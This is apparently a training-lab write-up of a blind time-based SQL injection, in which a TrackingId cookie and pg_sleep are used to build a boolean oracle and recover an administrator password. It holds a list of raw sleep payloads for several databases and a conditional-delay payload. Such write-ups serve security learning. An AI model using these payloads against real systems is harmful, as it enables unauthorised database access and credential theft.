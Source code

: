 # Blind SQL injection with time delays and information retrieval

*A clean, step‑by‑step write‑up using my original flow and **raw payloads** (no URL‑encoding), with tiny typo fixes and minimal notes.*

---

## 🎯 Goal
**Get the password for the `administrator` user and log in.**

---

## ✅ My Exact Steps (verbatim, lightly corrected)

1. **GOAL:** get password for administrator user and log in  
2. **Finding vulnerable parameter:** after going over all the params I could find, I realized it might be **blind SQLi**.  
3. **Try the time‑sleep payloads we know:**  
   ```text
   '+||+DBMS_SESSION.SLEEP(1)--, '+||+pg_sleep(1)--, '+||+sleep(1)--, '+||+WAITFOR DELAY+'0:0:1'--, '+||+111111111111.....--
   ```
4. **Cookie test that works:**  
   ```text
   TrackingId=peqSgovlyvTEa2WS'+||+pg_sleep(1)--
   ```
5. We know it’s **PostgreSQL**, and we need the password, so let’s look for **IF**-style logic in Postgres.  
6. **Boolean time test:**  
   ```text
   '+||+(SELECT CASE WHEN (1=1) THEN pg_sleep(1) END)--
   ```
   → this **works**, while `1=2` doesn’t delay.  
7. **Automation time** (see `automation.py`).  
8. **Grab the password** and log in as **administrator**.  
9. **Lab solved!** ✅

---

## 🧠 Why This Works (minimal notes)
- The vulnerable sink concatenates the cookie into a **string expression**. Using `||` forces evaluation of the function call (`pg_sleep`) even though the value isn’t displayed.  
- Wrapping `pg_sleep` in a scalar subquery with `CASE WHEN ...` gives a **boolean‑driven delay**: true ⇒ **sleep**, false ⇒ **no sleep**. That’s your **time‑based oracle**.  
- Quick DB cheat sheet for sleeps:  
  - **PostgreSQL:** `pg_sleep( seconds )`  
  - **Oracle:** `DBMS_LOCK.SLEEP( seconds )` (sometimes `DBMS_SESSION.SLEEP`)  
  - **SQL Server:** `WAITFOR DELAY '00:00:10'`  
  - **MySQL:** `SLEEP( seconds )`

> If the subquery form is required by the sink, try: `'||(SELECT pg_sleep(10))||'` or `'||(SELECT CASE WHEN <cond> THEN pg_sleep(1) END)||'`

---

## ⌨️ Raw Payloads (copy/paste — exactly as used)
```text
'+||+DBMS_SESSION.SLEEP(1)--
'+||+pg_sleep(1)--
'+||+sleep(1)--
'+||+WAITFOR DELAY+'0:0:1'--
'+||+111111111111.....--
TrackingId=peqSgovlyvTEa2WS'+||+pg_sleep(1)--
'+||+(SELECT CASE WHEN (1=1) THEN pg_sleep(1) END)--
'+||+pg_sleep(10)--
```

---

## 🏁 Result
- Built a **time‑based boolean oracle** using cookie concatenation and `pg_sleep`, automated the character search, **retrieved the admin password**, and logged in. **Solved. ✅**

